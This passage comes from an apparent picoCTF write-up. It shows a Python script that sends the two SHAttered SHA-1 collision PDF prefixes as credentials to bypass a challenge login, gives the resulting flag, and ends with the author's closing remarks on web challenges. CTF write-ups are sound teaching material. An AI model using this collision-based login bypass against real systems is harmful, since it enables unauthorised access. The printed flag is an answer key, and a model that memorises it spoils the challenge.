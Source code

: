 ```python
#sesame.py
import requests
import urllib
rotimi = urllib.request.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
letmein = urllib.request.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];
# replace the URL with your domain
r = requests.post("http://verbal-sleep.picoctf.net:53626/impossibleLogin.php", data={'username': rotimi, 'pwd': letmein});

print(r.text)
```

which returns the flag ***picoCTF{w3Ll_d3sErV3d_Ch4mp_233d4a80}***.
![flag get](./assets/sesame/flag_get.png)

### Web closing words

And that's the end of the road for me in web exploitations. The two pachinko challenges involve webassembly which is completely unknown territory for me, and unlike the average Japanese middle aged man in a pachinko parlor, I gave up. The two pachinko machines caused me so much grief that it completely shot all of my confidence, so I didn't even bother building the docker image for secure-email-service. After this, I tried taking shots at a few easier problems from other category that is outside of my specialization to try to get pass that 2000 mark.

## 3, General Skills
